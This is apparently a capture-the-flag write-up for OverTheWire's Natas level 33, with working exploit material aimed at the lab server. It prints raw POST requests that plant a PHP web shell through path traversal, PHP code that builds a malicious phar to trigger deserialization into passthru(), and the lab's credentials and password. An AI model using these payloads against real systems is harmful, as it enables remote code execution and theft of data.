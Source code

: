 # natas34

A shortcut

This is not the designed way to get the password

The page http://natas33.natas.labs.overthewire.org/index.pl has a hidden input filename, which allows the file to be uploaded to any path (with traversal), as long as the folder is writable. From the last challenge we got RCE on the server, and was able to find that there exists a folder /var/www/natas/natas33-new with is writable by current user natas33. Thus, we can upload a PHP shell to this folder and get RCE, as follows.

POST /index.php HTTP/1.1
Host: natas33.natas.labs.overthewire.org
Content-Length: 475
Cache-Control: max-age=0
Authorization: Basic bmF0YXMzMzpzaG9vZ2VpR2EyeWVlM2RlNkFleDh1YVhlZWNoNWVleQ==
Origin: http://natas33.natas.labs.overthewire.org
Content-Type: multipart/form-data; boundary=—-WebKitFormBoundaryrDg9m1cnIOTLcDtc
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,_/_;q=0.8,application/signed-exchange;v=b3
Referer: http://natas33.natas.labs.overthewire.org/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,ja;q=0.6
Connection: close

——WebKitFormBoundaryrDg9m1cnIOTLcDtc
Content-Disposition: form-data; name=”MAX_FILE_SIZE”

4096
——WebKitFormBoundaryrDg9m1cnIOTLcDtc
Content-Disposition: form-data; name=”filename”

../../var/www/natas/natas33-new/index.php
——WebKitFormBoundaryrDg9m1cnIOTLcDtc
Content-Disposition: form-data; name=”uploadedfile”; filename=”abcd”
Content-Type: application/octet-stream

<?php echo shell_exec($_GET[‘c’]); ?>

——WebKitFormBoundaryrDg9m1cnIOTLcDtc–

Use the uploaded webshell to get the password:

http://natas33-new.natas.labs.overthewire.org/index.php?c=cat%20/etc/natas_webpass/natas34

The right way

From the source code, there is a md5_file() that directly takes the user input filename as its parameter. It is vulnerable to PHP Object Injection as described in What is Phar Deserialization.

In brief, the function md5_file() with parameter like 'phar://[phar_file].phar' will deserialize the object inside Metadata of phar and invoke the functions**destruct() and **wakeup() for target classes. Moreover, the variables in the classes can also be changed to arbitrary value. A list of vulnerable functions can be found here.

For this challenge, if we can craft a phar file, upload it to the server and send its path to the md5_file() function, we can trigger this bug and execute the \_\_destruct() function under class Executor. In order to pass the if clause and get to the passthru() function, we need to rewrite the filename and signature varibles by injecting a PHP object of class Executor. The following PHP code generates the crafted phar file.

```php
<?php
$phar = new Phar(‘test.phar’);
$phar->startBuffering();
$phar->setStub(‘<?php __HALT_COMPILER(); ? >’); // Somehow required by PHP

class Executor{
private $filename=’shell.php’;
private $signature='[MD5 for the shell.php]’;
}
$object = new Executor();
$phar->setMetadata($object);
$phar->addFromString(‘test.txt’, ‘text’); // Somehow required by PHP
$phar->stopBuffering();

?>
```

For the test.txt, simply create an empty file.

The shell.php is the PHP file that executes our actual web shell. For example:

```php
<?php
echo file_get_contents(‘/etc/natas_webpass/natas34’);
```
Save the file and calculate its MD5 digest (md5_file('shell.php') works). Put the hash into the signature variable and generate the test.phar.

Now we have two files in hand – shell.php and test.phar. We need to upload these two files to the server and remember where they are. A good way is to intercept the POST request and modify the form-data filename.

Suppose we have uploaded these two files with their initial names to the server, which will be put under /natas33/upload/. Now we need to trigger the md5_file() bug to inject PHP object, to run the __destruct() function which loads our special variables, to pass the if clause and get to the passthru() function:


POST /index.php HTTP/1.1
Host: natas33.natas.labs.overthewire.org
Content-Length: 420
Cache-Control: max-age=0
Authorization: Basic bmF0YXMzMzpzaG9vZ2VpR2EyeWVlM2RlNkFleDh1YVhlZWNoNWVleQ==
Origin: http://natas33.natas.labs.overthewire.org
Content-Type: multipart/form-data; boundary=—-WebKitFormBoundaryLyBTS2TxqLDkk37I
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,ja;q=0.6
Connection: close

——WebKitFormBoundaryLyBTS2TxqLDkk37I
Content-Disposition: form-data; name=”MAX_FILE_SIZE”

4096
——WebKitFormBoundaryLyBTS2TxqLDkk37I
Content-Disposition: form-data; name=”filename”

phar://test.phar
——WebKitFormBoundaryLyBTS2TxqLDkk37I
Content-Disposition: form-data; name=”uploadedfile”; filename=”test.phar”
Content-Type: application/octet-stream

File content doesn’t matter here…
——WebKitFormBoundaryLyBTS2TxqLDkk37I–

From the HTTP response, we can see that the first __destruct() function fails to pass the if clause since it’s the original object that the page created, but the second __destruct() function invoked by our injected object succeeds, which actually calculates if(md5_file('shell.php') == '[MD5 for shell.php]') which is absolutely true. Then the shell.php is passed to the passthru() function, and we get the RCE!

Password: shu5ouSu6eicielahhae0mohd4ui5uig



and finally:

Displaying a placeholder page. For now this is the end.